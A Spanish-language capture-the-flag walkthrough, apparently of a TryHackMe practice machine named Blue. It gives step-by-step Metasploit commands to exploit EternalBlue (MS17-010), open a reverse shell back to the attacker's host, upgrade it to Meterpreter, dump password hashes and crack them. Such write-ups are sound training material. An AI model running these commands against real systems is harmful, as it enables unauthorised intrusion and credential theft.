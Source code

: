 # Máquina Blue

## Dificultad: Fácil

![Logo](img/blue.webp)

Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.

```bash
ping -c 1 10.10.12.50
```

![Ping](img/ping.webp)

Para enumarar, voy a usar snap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```

![nmap](img/nmap.webp)

De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dóndepuede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  la versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombred del Host, **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode)

Ahora tenemos que encontrar alguna vulnerabilidad que explotar.

Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscnado en Google sobre esta versión del SO encontré esto:

![EternalBLue](img/eternalblue.webp)

Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.

Abrimos metasploit con el comando:

```shell
msfconsole
```
Buscamos el exploit con:

```shell
search ms17-010
```

![Exploit](img/exploit.webp)

Seleccionamos el exploit con:

```shell
use 0
```

El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:

```shell
set payload windows/x64/shell/reverse_tcp
```

![Payload](img/payload.webp)

Debemos ajustar la dirección del host remoto.

```shell
set RHOSTS 10.10.12.50
```

Y el host local. Vemos nuestra ip con el comando:

```shell
ip a
```

Y lo ajustamos:

```shell
set LHOST 10.10.162.56
```
Ahora ejecutamos el exploit con:

```shell
run
```

Efectivamente, la máquina es vulnerable al explot EternalBlue, todo ha salido bien, deberíamos ver algo similar a esto:

![Run](img/run.webp)

Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.

Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:

```shell
sessions -l
```

Si solo has hecho esto será la 1.

Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, y a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:

![Meterpreter](img/meterpreter.webp)

Ahora tenemos usa sesión con la shell inversa de meterpreter,, que es ka sesión 2. La activamos con el comando:

```shell
sessions -i 2
```

Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:

![whoami](img/whoami.webp)

Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:

![pid](img/pid.webp)

En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:

```shell
migrate 352
```

![migrate](img/migrate.webp)

Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:

![hashdump](img/hashdump.webp)

Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante diccionarios, yo he usado Crackstation por ser más rápido.

![CrackStation](img/crackstation.webp)

Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:

```shell
cd C:\\
ls
cat flag.txt
```
![flag1](img/flag1.webp)

Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```

![flag2](img/flag2.webp)

La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.

![flag3](img/flag3.webp)

Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:

```shell
search -f flag3.txt
```

![search](img/altenativa.webp)

Y con esto ya hemos resuelto la máquina.

![fin](img/fin.webp)